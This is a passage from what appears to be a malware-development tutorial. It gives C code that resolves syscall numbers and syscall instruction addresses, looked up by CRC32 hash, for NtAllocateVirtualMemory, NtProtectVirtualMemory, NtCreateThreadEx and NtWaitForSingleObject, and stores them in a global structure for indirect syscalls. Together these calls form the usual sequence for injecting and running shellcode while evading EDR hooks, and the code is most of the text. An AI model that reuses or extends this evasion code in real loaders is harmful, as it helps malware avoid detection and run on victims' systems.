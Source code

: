 Similarly to the previous module, all the invoked syscalls will be saved in a global `NTAPI_FUNC` structure.


```
typedef struct _NTAPI_FUNC
{
	NT_SYSCALL	NtAllocateVirtualMemory;
	NT_SYSCALL	NtProtectVirtualMemory;
	NT_SYSCALL	NtCreateThreadEx;
	NT_SYSCALL	NtWaitForSingleObject;

}NTAPI_FUNC, *PNTAPI_FUNC;

// global variable
NTAPI_FUNC g_Nt = { 0 };

```
### **Creating InitializeNtSyscalls**

To populate the `g_Nt` global variable, the newly created function, `InitializeNtSyscalls`, will call `FetchNtSyscall` to initialize all members of `NTAPI_FUNC`.


```
BOOL InitializeNtSyscalls() {

	if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &g_Nt.NtAllocateVirtualMemory)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtAllocateVirtualMemory \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtAllocateVirtualMemory Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtAllocateVirtualMemory.dwSSn, g_Nt.NtAllocateVirtualMemory.pSyscallInstAddress);


	if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &g_Nt.NtProtectVirtualMemory)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtProtectVirtualMemory \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtProtectVirtualMemory Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtProtectVirtualMemory.dwSSn, g_Nt.NtProtectVirtualMemory.pSyscallInstAddress);


	if (!FetchNtSyscall(NtCreateThreadEx_CRC32, &g_Nt.NtCreateThreadEx)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtCreateThreadEx \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtCreateThreadEx Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtCreateThreadEx.dwSSn, g_Nt.NtCreateThreadEx.pSyscallInstAddress);


	if (!FetchNtSyscall(NtWaitForSingleObject_CRC32, &g_Nt.NtWaitForSingleObject)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtWaitForSingleObject \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtWaitForSingleObject Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtWaitForSingleObject.dwSSn, g_Nt.NtWaitForSingleObject.pSyscallInstAddress);

	return TRUE;
}

```